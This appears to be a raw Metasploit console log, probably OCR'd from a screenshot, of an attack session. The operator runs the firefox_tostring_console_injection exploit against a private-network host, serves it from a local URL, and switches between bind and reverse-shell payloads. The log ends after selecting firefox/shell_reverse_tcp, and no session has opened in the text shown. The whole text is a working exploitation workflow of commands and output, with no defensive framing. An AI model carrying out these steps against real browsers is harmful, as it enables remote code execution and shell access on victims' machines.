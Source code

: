 No active sessions.

msf exploit(firefox_tostring_console_injection) > 
[*] 192.168.110.151  firefox_tostring_console_injection - Gathering target information.
[*] 192.168.110.151  firefox_tostring_console_injection - Sending HTML response.

msf exploit(firefox_tostring_console_injection) > sessions -l

Active sessions
===============

No active sessions.

msf exploit(firefox_tostring_console_injection) > sessions -l

Active sessions
===============

No active sessions.

msf exploit(firefox_tostring_console_injection) > exploit
[*] Exploit running as background job.

[*] Using URL: http://0.0.0.0:8080/sneaky
[*] Local IP: http://192.168.110.128:8080/sneaky
[*] Server stopped.
[*] Server stopped.
msf exploit(firefox_tostring_console_injection) > exploit
[*] Exploit running as background job.

[*] Using URL: http://0.0.0.0:8080/sneaky
[*] Local IP: http://192.168.110.128:8080/sneaky
[*] Server started.
[*] Started bind handler
msf exploit(firefox_tostring_console_injection) > [*] 192.168.110.151  firefox_tostring_console_injection - Gathering target information.
[*] 192.168.110.151  firefox_tostring_console_injection - Sending HTML response.

msf exploit(firefox_tostring_console_injection) > exploit
[*] Exploit running as background job.

[*] Using URL: http://0.0.0.0:8080/sneaky
[*] Local IP: http://192.168.110.128:8080/sneaky
[*] Server stopped.
[*] Server stopped.
msf exploit(firefox_tostring_console_injection) > set payload firefox/shell_
set payload firefox/shell_bind_tcp     set payload firefox/shell_reverse_tcp
msf exploit(firefox_tostring_console_injection) > set payload firefox/
set payload firefox/exec               set payload firefox/shell_reverse_tcp
set payload firefox/shell_bind_tcp     
msf exploit(firefox_tostring_console_injection) > set payload 
set payload firefox/exec               set payload generic/custom
set payload firefox/shell_bind_tcp     set payload generic/shell_bind_tcp
set payload firefox/shell_reverse_tcp  set payload generic/shell_reverse_tcp
msf exploit(firefox_tostring_console_injection) > set payload firefox/shell_reverse_tcp 
payload => firefox/shell_reverse_tcp
msf exploit(firefox_tostring_console_injection) > exploit
[*] Exploit running as background job.
